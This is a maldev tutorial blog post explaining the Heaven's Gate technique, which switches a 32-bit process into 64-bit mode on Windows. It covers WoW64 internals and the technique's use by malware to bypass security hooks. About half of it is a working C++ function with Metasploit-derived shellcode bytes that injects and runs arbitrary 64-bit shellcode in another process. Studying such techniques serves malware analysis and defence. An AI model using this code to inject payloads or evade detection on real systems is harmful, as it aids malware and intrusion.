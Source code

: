 +++
title = 'Understanding Heaven Gate'
date = 2024-09-19T20:53:30+01:00
draft = false
showDate = true
toc = true
tags = ["evasion", "loader", "firststeps", "maldev"]
+++

# Heaven's gate lore
The Heaven's Gate tutorial was written by an anonymous hacker going online as Roy G. Biv, a member of a group called 29A. 
After the group disbanded and their e-zine's site went down, the Heaven's Gate technique was later [reprinted in the 2009 edition of the Valhalla hacker e-zine](https://github.com/darkspik3/Valhalla-ezines/blob/master/Valhalla%20%231/articles/HEAVEN.TXT). I personally would check this resource, as it was the first time the technique was commented.
# Why does Heaven's gate exist?
In a normal environment, we have 64-bit Windows operative systems (or at least, we expect so). Some detection mechanisms, like antivirus software and OS security features, **do not detect a 32-bit process jumps from running 32-bit compatible code to 64-bit code.** And this is because a 32-bit program cannot inject code into 64-bit programs natively.
Indeed, 32-bit programs can run on a 64-bit OS because there is a compatibility layer: WoW64.
# The compatibility layer: WoW64
In a 64-bit Windows kernel, the first piece of code to execute in **any** process is **always** the 64-bit DLL called **ntdll.dll**, also called NTDLL.
This DLL takes care of **initializing the process in user-mode as a 64-bit process** and setting up the execution of the process. 

**But, what happens when a 64-bit Windows kernel runs a 32-bit process?** How does Windows allow that kind of compatibility?
Well, after NTDLL is loaded, the **Windows on Windows (WoW64)** interface takes over and **loads a 32-bit version of ntdll.dll, called ntdll32.dll**. After loading this DLL, the execution **turns into a 32-bit mode through a far jump to a compatibility code segment** that changes the processor context to work to 32 bits for this process. From now on, for that process, its environment (registers, instructions) is 32-bit. Nevertheless, the kernel is still 64 bit so, **when the process has to perform a syscall (and interact with the kernel space)** the 32-bit NTDLL that was loaded **changes the execution environment to 64-bit mode, executes the 64-bit syscall (calling the 64-bit NTDLL)**, and, once the *syscall* is performed ntdll32.dll returns the process to 32-bit mode. We can think of ntdll32.dll as a "proxy" so that the processor runs 32-bit code and 64-bit code when necessary (this is mainly when executing *syscalls*) in a 64-bit operative system.

This process is better described in [many](http://download.microsoft.com/download/3/a/9/3a9ad58f-5634-4cdd-8528-c78754d712e8/28-dw04040_winhec2004.ppt) [sources](https://msdn.microsoft.com/en-us/library/windows/desktop/aa384274(v=vs.85).aspx), including in the [Windows Internals books](https://www.safaribooksonline.com/library/view/windows-internals-fifth/9780735625303/ch03s08.html, so if you’re interested in reading more, you can do so, but I’ll try to do my best here.

# What is wrong with Heaven's Gate?
Besides the fact that this technique is pretty old (I think this is the [original post](https://github.com/darkspik3/Valhalla-ezines/blob/master/Valhalla%20%231/articles/HEAVEN.TXT) which has been since 2008), it has been used in a lot of malware campaigns, like [Emotet](https://blogs.blackberry.com/en/2023/01/emotet-returns-with-new-methods-of-evasion), a banking trojan. For example, the Emotet malware uses Heaven's Gate to perform process hollowing (another malware technique) **from a 32-bit process to a 64-bit process**.

**But why is this used?** Well, this technique is used to **bypass the WoW64 API hooks** performed by the security solutions. While a 32-bit process would normally **pass through the 32-bit API hooks** made by the 32-bit NTDLL.dll (which are the ones monitored by the security solutions), malicious programs can **perform a jump instruction past these hooks in order to execute 64-bit code** from a 32-bit process without having to trigger the API call, which is hooked by the security solutions. Overall, **this is used as an evasion mechanism.**

Windows initially developed this on the assumption that the 64-bit ntdll.dll could not be accessed by a 32-bit process, but Heaven’s Gate takes advantage of this by running x64 instructions which will be completely missed by any application expecting x86 instructions.

Also, this technique is used to difficult the analysis of the malware samples, as it makes the debugging and emulation harder (and the *reversing* process of these samples overall).
# Analyzing a Heaven's Gate implementatipn
There are a lot of different implementations of this technique, but they have 90% of the code in common. I will analyze the Heaven's Gate implementation used in the Metasploit Framework, as it is offered as a C++ function.

The Meterpreter shell [has a functionality to inject 64-bit code in 64-bit processes from 32-bit meterpreter shells](https://github.com/rapid7/meterpreter/blob/5e24206d510a48db284d5f399a6951cd1b4c754b/source/common/arch/win/i386/base_inject.c). I use a slightly modified code to **perform the Heaven's Gate, call CreateRemoteThread with a 64-bit shellcode in order to inject 64-bit code from a 32-bit process to a 64-bit code**. My code is the following: 
```c++
// Definitions used for running native x64 code from a wow64 process
// (src: https://github.com/rapid7/meterpreter/blob/5e24206d510a48db284d5f399a6951cd1b4c754b/source/common/arch/win/i386/base_inject.h)
typedef BOOL (WINAPI * X64FUNCTION)( DWORD dwParameter );
typedef DWORD (WINAPI * EXECUTEX64)( X64FUNCTION pFunction, DWORD dwParameter );

int InjectWOW64(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
//	src: https://github.com/rapid7/meterpreter/blob/5e24206d510a48db284d5f399a6951cd1b4c754b/source/common/arch/win/i386/base_inject.c

	LPVOID pRemoteCode = NULL;
	EXECUTEX64 pExecuteX64   = NULL;
	X64FUNCTION pX64function = NULL;
	WOW64CONTEXT * ctx       = NULL;

/*
 A simple function to execute native x64 code from a wow64 (x86) process. 
 Can be called from C using the following prototype:
     typedef DWORD (WINAPI * EXECUTEX64)( X64FUNCTION pFunction, DWORD dwParameter );
 The native x64 function you specify must be in the following form (as well as being x64 code):
     typedef BOOL (WINAPI * X64FUNCTION)( DWORD dwParameter );

 Original binary:
    src: https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/migrate/executex64.asm
	src: https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/migrate/remotethread.asm
*/
	BYTE sh_executex64[] =	"\x55\x89\xE5\x56\x57\x8B\x75\x08\x8B\x4D\x0C\xE8\x00\x00\x00\x00"
							"\x58\x83\xC0\x2B\x83\xEC\x08\x89\xE2\xC7\x42\x04\x33\x00\x00\x00"
							"\x89\x02\xE8\x0F\x00\x00\x00\x66\x8C\xD8\x66\x8E\xD0\x83\xC4\x14"
							"\x5F\x5E\x5D\xC2\x08\x00\x8B\x3C\xE4\xFF\x2A\x48\x31\xC0\x57\xFF"
							"\xD6\x5F\x50\xC7\x44\x24\x04\x23\x00\x00\x00\x89\x3C\x24\xFF\x2C"
							"\x24";
	BYTE sh_wownativex[] = "\xFC\x48\x89\xCE\x48\x89\xE7\x48\x83\xE4\xF0\xE8\xC8\x00\x00\x00"
							"\x41\x51\x41\x50\x52\x51\x56\x48\x31\xD2\x65\x48\x8B\x52\x60\x48"
							"\x8B\x52\x18\x48\x8B\x52\x20\x48\x8B\x72\x50\x48\x0F\xB7\x4A\x4A"
							"\x4D\x31\xC9\x48\x31\xC0\xAC\x3C\x61\x7C\x02\x2C\x20\x41\xC1\xC9"
							"\x0D\x41\x01\xC1\xE2\xED\x52\x41\x51\x48\x8B\x52\x20\x8B\x42\x3C"
							"\x48\x01\xD0\x66\x81\x78\x18\x0B\x02\x75\x72\x8B\x80\x88\x00\x00"
							"\x00\x48\x85\xC0\x74\x67\x48\x01\xD0\x50\x8B\x48\x18\x44\x8B\x40"
							"\x20\x49\x01\xD0\xE3\x56\x48\xFF\xC9\x41\x8B\x34\x88\x48\x01\xD6"
							"\x4D\x31\xC9\x48\x31\xC0\xAC\x41\xC1\xC9\x0D\x41\x01\xC1\x38\xE0"
							"\x75\xF1\x4C\x03\x4C\x24\x08\x45\x39\xD1\x75\xD8\x58\x44\x8B\x40"
							"\x24\x49\x01\xD0\x66\x41\x8B\x0C\x48\x44\x8B\x40\x1C\x49\x01\xD0"
							"\x41\x8B\x04\x88\x48\x01\xD0\x41\x58\x41\x58\x5E\x59\x5A\x41\x58"
							"\x41\x59\x41\x5A\x48\x83\xEC\x20\x41\x52\xFF\xE0\x58\x41\x59\x5A"
							"\x48\x8B\x12\xE9\x4F\xFF\xFF\xFF\x5D\x4D\x31\xC9\x41\x51\x48\x8D"
							"\x46\x18\x50\xFF\x76\x10\xFF\x76\x08\x41\x51\x41\x51\x49\xB8\x01"
							"\x00\x00\x00\x00\x00\x00\x00\x48\x31\xD2\x48\x8B\x0E\x41\xBA\xC8"
							"\x38\xA4\x40\xFF\xD5\x48\x85\xC0\x74\x0C\x48\xB8\x00\x00\x00\x00"
							"\x00\x00\x00\x00\xEB\x0A\x48\xB8\x01\x00\x00\x00\x00\x00\x00\x00"
							"\x48\x83\xC4\x50\x48\x89\xFC\xC3";
							
	unsigned int sh_executex64_len = sizeof(sh_executex64);
	unsigned int sh_wownativex_len = sizeof(sh_wownativex);

	// inject payload into target process
	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);

	printf("remcode = %p\n", pRemoteCode); getchar();
	
	// alloc a RW buffer in this process for the EXECUTEX64 function
	pExecuteX64 = (EXECUTEX64)VirtualAlloc( NULL, sizeof(sh_executex64), MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE );
	// alloc a RW buffer in this process for the X64FUNCTION function (and its context)
	pX64function = (X64FUNCTION)VirtualAlloc( NULL, sizeof(sh_wownativex)+sizeof(WOW64CONTEXT), MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE );

	// printf("pExecuteX64 = %p ; pX64function = %p\n", pExecuteX64, pX64function); getchar();

	// copy over the wow64->x64 stub
	memcpy( pExecuteX64, sh_executex64, sh_executex64_len );
	VirtualAlloc( pExecuteX64, sizeof(sh_executex64), MEM_COMMIT, PAGE_EXECUTE_READ );

	// copy over the native x64 function
	memcpy( pX64function, sh_wownativex, sh_wownativex_len );

	// pX64function shellcode modifies itself during the runtime, so memory has to be RWX
	VirtualAlloc( pX64function, sizeof(sh_wownativex)+sizeof(WOW64CONTEXT), MEM_COMMIT, PAGE_EXECUTE_READWRITE );

	// set the context
	ctx = (WOW64CONTEXT *)( (BYTE *)pX64function + sh_wownativex_len );

	ctx->h.hProcess       = hProc;
	ctx->s.lpStartAddress = pRemoteCode;
	ctx->p.lpParameter    = 0;
	ctx->t.hThread        = NULL;
	
	// run a new thread in target process
	pExecuteX64( pX64function, (DWORD)ctx );
	
	if( ctx->t.hThread ) {
		// if success, resume the thread -> execute payload
		ResumeThread(ctx->t.hThread);

		// cleanup in target process
		VirtualFree(pExecuteX64, 0, MEM_RELEASE);
		VirtualFree(pX64function, 0, MEM_RELEASE);

		return 0;
	}
	else
		return 1;
}
```

This function receives:
- The handle to the 64 bit process to inject the 64-bit shellcode.
- The 64-bit shellcode.
- The size of the shellcode.

Then, the steps to execute the 64-bit shellcode in the 64-bit target process are the following:
- Allocate memory space in the target process and copy the 64-bit shellcode for further execution.
- In the 32-bit process, a RW buffer is allocated for the EXECUTEX64 function. **This is the function that performs THE TRANSITION FROM 32-bit to 64-bit space, calls X64FUNCTION (we will see what this is in a moment) and returns from 64-bit to 32-bit space.**
- In the 32-bit process, a RW buffer is allocated for for the X64FUNCTION function (and its context). **This function is basically the 64-bit shellcode of CreateRemoteThread, as we want to create a thread in the remote process with our shellcode as the starting point.**.
- We change the memory properties of the X64FUNCTION function zone (the CreateRemoteThread) as it modifies itself during runtime.
- We run a new thread in the target process using the EXECUTE64 function, passing the address of the memory we allocated in the first step (therefore, pointing to the shellcode we want to execute).
- Resume the thread (the thread is created in suspended state, as the flag CREATE_SUSPENDED is used in the shellcode that runs the thread).
- Free the memory in the 32-bit process as it is no longer needed.

Note that we could **have a modified version of this function so that the 64-bit function that is executed is not CreateRemoteThread**, but a Windows API call (for example), or an arbitrary 64-bit function shellcode.